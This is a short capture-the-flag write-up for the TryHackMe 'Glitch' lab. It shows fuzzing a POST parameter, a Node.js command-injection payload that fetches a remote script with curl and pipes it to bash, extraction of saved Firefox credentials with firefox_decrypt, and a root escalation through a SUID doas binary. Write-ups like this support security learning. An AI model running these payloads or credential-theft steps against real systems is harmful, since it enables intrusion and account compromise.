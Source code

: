 ```yaml
---
title: Glitch
description: 'RCE through POST parameter and privilege escalation through a FireFox profile'
pubDate: 2023-06-24
category: 'tryhackme'
tags: ['firefox decrypt']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/baebc18318f328bf978120cde5328cb0.jpeg'
---
```


Enum all methods and paths then fuzz the POST parameter.

```
ffuf -c -u 'http://10.10.150.35/api/items?FUZZ=test' -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -X POST -b token=this_is_not_real -fw 55
```

## USER
```
POST /api/items?cmd=require('child_process').exec('curl+10.8.119.137:8000/x.sh|bash')
```

## ROOT

There is a FireFox profile which can contain credentials.
We can extact those with https://github.com/unode/firefox_decrypt.

```bash
python3 ff_decrypt.py .firefox

Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```

Now we can switch to this user:

```bash
su v0id # <-- love_the_void
```

```bash
find / -perm /4000 2>/dev/null | grep -v /run | grep -v /proc | grep -v /sys
...[snip]...
/usr/local/bin/doas
```

```bash
/usr/local/bin/doas bash # <-- love_the_void
```
